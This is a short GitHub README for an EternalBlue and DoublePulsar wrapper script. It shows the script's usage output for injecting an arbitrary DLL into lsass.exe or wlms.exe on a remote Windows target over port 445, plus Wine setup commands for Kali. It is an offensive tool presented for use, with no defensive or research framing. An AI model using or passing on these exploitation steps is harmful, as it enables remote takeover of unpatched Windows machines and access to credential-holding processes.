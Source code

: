 # Eternalblue-Doublepulsar-Metasploit

Original Source: https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit

Added shell script to run EternalBlue exploit along with DoublePulsar to execute a DLL.

```
root@kali:/opt/Eternalblue-Doublepulsar-Metasploit# bash eternalblue-exploit.sh

Usage: externalblue-exploit.sh <TARGET_IP> <TARGET_PORT> <TIMEOUT> <TARGET_OS> <ARCH> <INJECT_TO_PROCESS> <DLL_FILE>

TARGET_IP: Target you want to exploit
TARGET_PORT: In most cases it is 445
TIMEOUT: Number of seconds for timeout
TARGET_OS: Enter XP or WIN72K8R2
ARCH: Architecture of target. Enter x86 or x64
INJECT_TO_PROCESS: Enter lsass.exe for x64 and wlms.exe for x86
DLL_FILE: Absolute path to DLL to execute on target

Note: If you are running 64-bit Kali then run the below mentioned commands to install Wine 32-bit:
dpkg --add-architecture i386
apt-get update
apt-get install -y wine32
```
